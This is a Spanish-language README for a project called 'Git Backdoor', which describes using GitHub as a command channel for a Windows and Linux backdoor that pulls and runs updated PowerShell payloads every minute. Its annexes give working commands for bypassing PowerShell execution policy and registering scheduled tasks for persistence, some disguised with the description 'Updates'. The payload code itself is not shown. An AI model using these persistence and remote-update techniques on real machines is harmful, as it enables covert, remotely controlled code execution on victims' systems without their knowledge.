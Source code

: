 # Git Backdoor

Este proyecto muestra la posibilidad de hacer uso de el servicio de github como un backdoor para Windows y Linux.

# Funcionamiento

A través de `installer_system.ext` nosotros instalaremos nuestro backdoor y lo ejecutaremos como una tarea programada.
+ Instala git
+ Clona el repositorio backdoor
+ Programa una tarea para ejecutarse

Con lo anterior nosotros estaremos ejecutando periodicamente nuestro `main.ps1`. Este archivo:
+ Será actualizado antes de ejecutarse mediante un `git pull`
    + Esto le permite ser modificado desde el repositorio base
+ Lanzará nuestros payloads

# Entorno en el que ha sido probado

+ Windows 10
+ Debian 10

# Anexo 1: Ejecución de Scripts de powershell en modo Bypass

Powershell en Windows 10 tiene por defecto una politica de ejecución de scripts. 

Para consultar dicha politica

``` powershell
Get-ExecutionPolicy -list
```

Modos de la politica
+ `Restricted` Opción predefinida en Windows 10. No permite ejecutar scripts, ni archivos de configuración .ps1xml u otros similares, sino solo comandos.
+ `Allsigned` Permite ejecución de scripts y archivos de configuración firmados por un editor de confianza. Esto incluye los escritos en el equipo local. Conlleva el riesgo de ejecutar un script que sea malintencionado, a pesar de haber sido firmado.
+ `RemoteSigned` RemoteSigned: permite ejecutar scripts powershell y archivos de configuración descargados de internet (de cualquier forma). Conlleva cierto riesto, dado que no solicita firmas digitales para scripts diseñados en el equipo local. Para ejecutar scripts descargados de internet (sin firmar) es necesario usar la opción Unblock-File.
+ `Unrestricted` permite ejecutar cualquier script o archivo de configuración, esté firmado o no. Muestra advertencia al usuario.
+ `Bypass` similar al anterior, pero además de no bloquear tampoco alerta de los riesgos. Este modo se suele utilizar en integraciones de Powershell con otras aplicaciones, en las que funciona en una capa inferior, dado que dichas aplicaciones cuentan con un modelo de seguridad propio.
+ `Undefined` no se establece directiva alguna. Esto se traduce normalmente en “Restricted”, suponiendo que en todos los ámbitos se haya dejado sin definir.

Para cambiar la politica de ejecución de los scripts

``` powershell
Set-ExecutionPolicy RemoteSigned
```

Para cambiar la politica de ejecución de los scripts

``` powershell
Set-ExecutionPolicy RemoteSigned -Force
```
+ Este modo forza el cambio

Para ejecutar un script sin en modo Bypass

``` powershell
powershell –ExecutionPolicy Bypass hello_world.ps1
```

# Anexo 2: Scheduled Task en Windows

Las tareas programadas son lo que nos permiten hacer que nuestro backdoor se ejecute de forma periódica. Cabe destacar que Windows y su Scheduled Task no se llevan bien con los espacios en sus nombres de directorios QUE ELLOS MISMOS OCUPAN. Por ejemplo, `C:\Program Files (x86)` y `C:\Program Files`. **#HateWindows** por hacer innecesariamente complicado lo que es simple.

## A) Creación de tareas programadas


### 1) Se crea una acción programada 
Se define qué es lo que nuestra tarea debe realizar

Acción simple

``` powershell
$action = New-ScheduledTaskAction -Execute "notepad.exe"
```
+ Guardamos en la variable `$action` la acción que ejecutará `notepad.exe`

Acción con argumetos

``` powershell
$action = New-ScheduledTaskAction -Execute "Powershell.exe" -Argument -file $program_location + $program_to_execute
```
+ `$action` es la variable que guardará la acción que ejecutará `notepad.exe`
+ `-AsJob` es un parametro que nos permitiría correrlo en segundo plano. Para tareas largas
+ `-Argument` es un parametro que nos permite definir argumentos.


### 2) Se crea un disparador
Aquí definimos qué es lo que activará nuestra tarea programada
``` powershell
$trigger = New-ScheduledTaskTrigger -Once -At 7am -RepetitionDuration  (New-TimeSpan -Days 1)  -RepetitionInterval  (New-TimeSpan -Minutes 1)
```
+ `$trigger` es nuestra variable que almacenará nuestro disparador
+ `-Once` Ejecuta la tarea solamente una vez. En lugar de eso puede ser: `-Daily`, `-DaysOfWeek`, `-AtStartup`, `-AtLogOn`.
+ `-At` Especifica día y fecha para disparar la tarea
+ `-RepetitionDuration`  Especifica cuánto tiempo se repite el patrón de repetición después de que comienza la tarea.
+ `-RepetitionInterval` Especifica el tiempo que pasará antes de repetir nuevamente la tarea
+ `-RandomDelay` especifica cuánto tiempo de delay tendrá nuestra tarea(?)
+ (Ver más en Información complementaria)

### 3) Se registra la tarea

Registramos la tarea

``` powershell
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "testest" -Description "Updates"
```
+ `-Action` es la acción a ejecutar 
+ `-Trigger` es el disparador
+ `-TaskName` es el nombre de la tarea
+ `-Description` la descripcion de la tarea

## B) Ejemplos de tareas programadas

1.- Tarea que abre desde las 7am y luego cada minuto el programa notepad

```powershell
$action = New-ScheduledTaskAction -Execute "notepad.exe"
$trigger = New-ScheduledTaskTrigger -Once -At 7am -RepetitionDuration  (New-TimeSpan -Days 1)  -RepetitionInterval  (New-TimeSpan -Minutes 1)
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "abre_notepad" -Description "Abre el notepad cada minuto"
```
+ Solamente abre uno nuevo cuando está cerrado

2.- Tarea que abre desde el momento en que se ejecuta el script y luego cada minuto la calculadora

```powershell
$action = New-ScheduledTaskAction -Execute "calc.exe"
$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionDuration  (New-TimeSpan -Days 1)  -RepetitionInterval  (New-TimeSpan -Minutes 1)
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "abre_calc" -Description "Abre la calculadora cada minuto"
```

3.- Tarea que ejecuta un script ubicado en la raíz

``` powershell
$action = New-ScheduledTaskAction -Execute "Powershell.exe" -Argument "powershell –ExecutionPolicy Bypass c:\main.ps1"
$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionDuration  (New-TimeSpan -Days 1)  -RepetitionInterval  (New-TimeSpan -Minutes 1)
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "script" -Description "Updates"
``` 
+ El problema de esto es que muestra la pantalla azul de powershell en que se ejecuta
+ Si tratamos de cambiar la ruta de nuestro script por una cuyo PATH contenga espacios, por ejemplo `$env:ProgramFiles` o `C:\Program Files\anything` nos lanzará un error ya que el Scheduled Task de Windows no procesará adecuadamente el espacio de `Program Files`.


4.- Tarea que nos permite ejecutar un script en rutas que contienen espacios.

``` powershell
$action = New-ScheduledTaskAction -Execute powershell.exe -Argument "Set-Location 'C:\Program Files (x86)\backdoor_program'; powershell –ExecutionPolicy Bypass .\main.ps1;"

$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionDuration  (New-TimeSpan -Days 1)  -RepetitionInterval  (New-TimeSpan -Minutes 1)

Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "notepad" -Description "Updates"
```


## C) Removiendo Scheduled Task en Windows
Para remover las tareas programadas anteriormente solamente debemos seguir los siguientes pasos

1.- Listar y ubicar el nombre de la tarea programada que queramos borrar

```
Get-ScheduledTask
```

2.- Removemos una tarea programada anteriormente

``` powershell
Unregister-ScheduledTask -TaskName "Your_Task_Name" 
```

3.- Removemos una tarea programada anteriormente sin necesidad de confirmación

``` powershell
Unregister-ScheduledTask -TaskName "Your_Task_Name" -Confirm:$False
```

# Información complementaria

Ejecución de Scripts de powershell en modo Bypass
+ [Politica de Scripts Powershell en Windows 10](https://protegermipc.net/2018/11/22/permitir-la-ejecucion-de-scripts-powershell-en-windows-10/)

Scheduled Task Windows
+ [PowerShell create a scheduled task - Vídeo de Youtube](https://www.youtube.com/watch?v=izlIJTmUW0o)
+ [New-ScheduledTaskAction](https://docs.microsoft.com/en-us/powershell/module/scheduledtasks/new-scheduledtaskaction?view=win10-ps)
+ [New-ScheduledTaskTrigger](https://docs.microsoft.com/en-us/powershell/module/scheduledtasks/new-scheduledtasktrigger?view=win10-ps)
+ [scheduled-task-with-daily-trigger-and-repetition-interval](https://stackoverflow.com/questions/20108886/scheduled-task-with-daily-trigger-and-repetition-interval)
